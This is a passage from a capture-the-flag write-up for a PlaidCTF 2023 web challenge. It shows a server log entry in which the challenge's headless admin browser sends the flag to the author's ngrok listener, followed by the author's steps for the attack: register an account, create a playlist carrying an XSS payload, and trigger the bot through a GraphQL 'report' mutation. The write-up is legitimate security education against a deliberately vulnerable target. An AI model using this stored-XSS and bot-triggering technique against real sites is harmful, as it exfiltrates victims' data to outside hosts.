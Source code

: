 **Then send the `report` mutation query:**
```
client_1    | 172.21.0.1 - - [15/Apr/2023:15:03:33 +0000] "GET /?d={%22data%22:{%22flag%22:%22PCTF{fake_flag}%22}} HTTP/1.1" 200 366 "https://987a-{Redacted}.ngrok-free.app/user/bd349a2a-5040-433e-be47-d1b5a84edb2f" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.49 Safari/537.36" "{Redacted}"
```

**Armed with above information, we can now work on the remote instance!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230415230623.png)

However, it only has 2 minutes up-time.

Some teams wrote a solve script, however, I decided to speed run it! :D

**So, to recreate the above testing PoC, we need to:**

1. Register an account
2. Create a new playlist with the XSS payload
3. Send the `report` mutation query to the GraphQL endpoint
